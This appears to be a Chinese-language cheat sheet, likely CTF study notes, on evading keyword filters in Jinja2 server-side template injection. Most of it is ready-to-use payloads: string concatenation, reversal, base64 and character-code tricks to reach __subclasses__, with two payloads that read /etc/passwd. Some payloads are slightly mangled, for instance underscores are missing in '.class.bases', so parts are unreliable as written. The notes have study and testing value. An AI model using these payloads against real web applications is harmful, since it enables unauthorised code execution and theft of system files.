 
### 过滤了subclasses等字符


```plain
拼凑法
原poc{{"".class.bases[0].subclasses()}}
绕过{{"".class.bases[0]'subcla'+'sses'}}

```



### 过滤class


```plain
使用sessionpoc{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```






### 过滤关键字


```plain
base64编码绕过(编码的话我隐约记得py3好像用不了)
__getattribute__使用实例访问属性时,调用该方法
例如被过滤掉__class__关键词
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
字符串拼接绕过
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}

```



字符串拼接


**1、拼接**


"cla"+"ss"


**2、反转**


"__ssalc__"[::-1]


**3.ascii转换**


```plain
"{0:c}".format(97)='a'"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'

```
